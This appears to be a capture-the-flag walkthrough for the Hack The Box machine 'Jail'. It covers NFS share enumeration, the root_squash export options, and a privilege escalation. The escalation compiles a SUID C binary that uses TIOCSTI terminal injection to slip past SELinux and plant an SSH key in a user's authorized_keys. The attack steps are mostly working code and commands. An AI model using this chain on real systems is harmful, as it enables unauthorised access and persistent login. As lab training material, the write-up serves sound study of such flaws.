

# 20 - NFS


# Shares
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ showmount -e 10.10.10.34
Export list for 10.10.10.34:
/opt          *
/var/nfsshare *
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ sudo mkdir -p /mnt/jail/{opt,nfsshare} 
```

# Mount all the shares
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ sudo mount -t nfs 10.10.10.34:opt /mnt/jail/opt
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ sudo mount -t nfs 10.10.10.34:/var/nfsshare /mnt/jail/nfsshare

```

# All the shared files
```bash
┌─[user@parrot]─[10.10.14.12]─[/mnt/jail]
└──╼ $ find .
.
./opt
./opt/rh
./opt/logreader
./opt/logreader/logreader.sh
./nfsshare
```


# Group permission on nfsshare



At this point you might see something different or only a group id. That is because group id isn't mapped to any name in /etc/group on your box. What matters is the group id. docker group id is 1000 on my box which is frank on 10.10.10.34. 


# frank
```bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
```

```bash
$ cat /etc/exports
/var/nfsshare *(rw,sync,root_squash,no_all_squash)
/opt *(rw,sync,root_squash,no_all_squash)
```

# [root_squash](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/5/html/deployment_guide/s1-nfs-server-config-exports)
```
Prevents root users connected remotely from having root privileges and assigns them the user ID for the user nfsnobody.
```

That means if we are in any group except for root we should be able to write to nfsshare directory and change permission on any file. Root won't be able to do anything on this share. We can create an executable and enable SUID on it and elevate privileges from  nobody to frank (we can change our group id to match adm on host but let's just ignore it for now. Unfortunately this doesn't work for root. Root is nfsnobody on jail)

There is one problem, SELinux is enabled on this box, it will drop elevated privileges but there is of course a way to escape SELinux


# [SELinux escape](https://seclists.org/oss-sec/2016/q3/606) and authorized_keys

```
#include <unistd.h>
#include <sys/ioctl.h>

int main()
{
    char *cmd = "id\n";
    while(*cmd)
     ioctl(0, TIOCSTI, cmd++);
    execlp("/bin/cp", "cp", "/tmp/authorized_keys","/home/frank/.ssh/authorized_keys", NULL);
}

```

We can place our public key into frank's authorized_keys file with this c code in order to log in through ssh

  
# Compilation
```bash
┌─[user@parrot]─[10.10.14.12]─[/mnt/jail/nfsshare]
└──╼ $ gcc test.c -o test && chmod 4755 test # this will enable SUID
```

# Execute the escape code
```bash
$ ls -l /var/nfsshare/test
-rwsr-xr-x. 1 frank 1002 16656 Jun 22 11:54 /var/nfsshare/test
$ /var/nfsshare/test
$
```

# SSH
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/jail]
└──╼ $ ssh -l frank 10.10.10.34  -i /home/user/.ssh/id_rsa 
[frank@localhost ~]$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

it takes a while to load.
